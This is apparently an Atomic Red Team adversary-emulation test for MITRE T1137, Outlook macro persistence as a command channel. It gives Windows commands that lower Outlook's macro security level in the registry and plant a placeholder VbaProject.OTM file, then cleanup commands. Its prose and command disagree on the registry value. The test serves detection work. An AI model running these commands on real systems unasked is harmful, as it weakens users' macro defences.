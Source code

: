 ```yaml
---
tags: [T1137, atomic_test]
filename: "[[T1137 - Office Application Startup]]"
---
```

# T1137 - Office Application Startup

## Atomic Test #1 - Office Application Startup - Outlook as a C2
As outlined in MDSEC's Blog post https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/ 
it is possible to use Outlook Macro as a way to achieve persistance and execute arbitrary commands. This transform Outlook into a C2.
Too achieve this two things must happened on the syste
- The macro security registry value must be set to '4'
- A file called VbaProject.OTM must be created in the Outlook Folder.

**Supported Platforms:** Windows


**auto_generated_guid:** bfe6ac15-c50b-4c4f-a186-0fc6b8ba936c






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /t REG_DWORD /d 1 /f
mkdir  %APPDATA%\Microsoft\Outlook\ >nul 2>&1
echo "Atomic Red Team TEST" > %APPDATA%\Microsoft\Outlook\VbaProject.OTM
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /f >nul 2>&1
del %APPDATA%\Microsoft\Outlook\VbaProject.OTM >nul 2>&1
```





<br/>
